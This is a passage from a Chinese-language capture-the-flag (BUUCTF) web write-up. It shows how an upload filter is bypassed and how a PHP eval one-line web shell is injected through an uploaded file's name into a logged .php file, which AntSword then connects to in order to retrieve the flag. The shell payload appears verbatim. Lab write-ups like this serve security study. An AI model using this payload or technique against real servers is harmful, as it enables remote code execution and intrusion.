 无法上传php文件,这里成功上传了一个文件头写了`GIF89a`的`phtml`文件, 返回:

```
I logged the file name you uploaded to logs/upload.3673c55acd1587aea22bccc61ea61970.log.php. LOL<script>setTimeout('location.href="user.php"',3000);</script>
```

这里虽然不知道刚刚的文件上传到哪里了, 但是这里显示把上传文件的文件名写入了一个php文件里,那我们可以把文件名改为一句话木马的形式,来利用它写入的那个日志文件

这里直接把文件名改为常规的一句话木马会失败:

<img src="../images/buuctf-web3/image-20221027204314677.png" alt="image-20221027204314677" style="zoom:67%;" />



**使用php短标签成功上传**

```
<?=@eval($_POST['a']);?>
```

<img src="../images/buuctf-web3/image-20221027204419575.png" alt="image-20221027204419575" style="zoom:67%;" />



```
I logged the file name you uploaded to logs/upload.3673c55acd1587aea22bccc61ea61970.log.php. LOL
```

蚁剑连接该文件后成功找到flag
